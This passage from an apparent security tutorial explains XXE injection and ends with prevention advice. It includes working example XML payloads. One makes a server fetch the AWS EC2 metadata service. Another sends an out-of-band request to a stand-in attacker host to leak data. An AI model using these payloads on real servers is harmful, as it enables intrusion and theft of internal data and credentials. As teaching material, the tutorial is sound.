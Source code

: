 An XXE payload can be used to force the server to make HTTP requests to internal services.

**Example HTTP Request:**
```http
POST /parse-xml HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/xml
Content-Length: 210

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ 
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/"> 
]>
<request>
  <name>&xxe;</name>
</request>
```
Here, the external entity `xxe` points to `http://169.254.169.254/latest/meta-data/`, which is the AWS EC2 metadata service. If processed, the server would attempt to fetch data from this service, potentially leaking internal information.

#### 3. Out-of-Band (OOB) XXE Attack

OOB XXE uses an external entity that makes an HTTP or DNS request to a server controlled by the attacker. This can be used to exfiltrate data or confirm the vulnerability.

**Example HTTP Request:**
```http
POST /parse-xml HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/xml
Content-Length: 210

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ 
  <!ENTITY xxe SYSTEM "http://attacker-server.com/xxe?data=leak"> 
]>
<request>
  <name>&xxe;</name>
</request>
```
In this case, the entity `xxe` would cause the server to make a request to `http://attacker-server.com/xxe?data=leak`, confirming the vulnerability and possibly leaking some data.

### Preventing XXE Injection

To prevent XXE vulnerabilities:
- **Disable external entity processing** in XML parsers.
- **Use safer XML parsers** or libraries that do not support external entities by default.
- **Validate and sanitize** XML input before processing.
- **Avoid using XML altogether** if possible, or limit XML functionality.

XXE Injection is a serious vulnerability that can lead to data theft, system compromise, or other security issues, making secure XML parsing crucial for any web application.
